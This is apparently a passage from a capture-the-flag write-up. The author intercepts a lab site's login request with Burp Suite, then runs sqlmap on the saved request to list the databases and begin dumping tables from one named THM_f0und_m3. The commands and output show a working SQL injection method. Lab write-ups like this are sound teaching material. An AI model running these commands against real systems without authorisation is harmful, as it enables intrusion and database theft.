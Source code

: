 Start **Burp Suite** in order to intercept the request. Try to log inand intercept the request
```
POST /login/ HTTP/1.1
Host: 10.10.207.62
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://10.10.207.62
Connection: close
Referer: http://10.10.207.62/login/
Upgrade-Insecure-Requests: 1

username=admin&password=admin&submit=submit
```
We noticed the request type: **POST**. Save the request as a text file.Now, we can start **sqlmap** ^^

It is important to be patient. This approach takes few minutes.
```
sqlmap -r ~/Downloads/request.txt --dbs
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.2#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:16:37 /2022-04-02/

[19:16:37] [INFO] parsing HTTP request from '/Users/laurentnebout/Downloads/request.txt'
........
[19:18:42] [INFO] retrieved:
[19:18:52] [INFO] adjusting time delay to 3 seconds due to good response times
inform
[19:20:04] [ERROR] invalid character detected. retrying..
[19:20:04] [WARNING] increasing time delay to 4 seconds
ation_schema
[19:22:46] [INFO] retrieved: THM_f0und_m3
.......
```
We found the database name **THM_f0und_m3**. Now, it's time to dump the DB ^^
```
sqlmap -r ~/Downloads/request.txt -D THM_f0und_m3 --tables

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.2#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:44:41 /2022-04-02/

[19:44:41] [INFO] parsing HTTP request from '/Users/laurentnebout/Downloads/request.txt'
```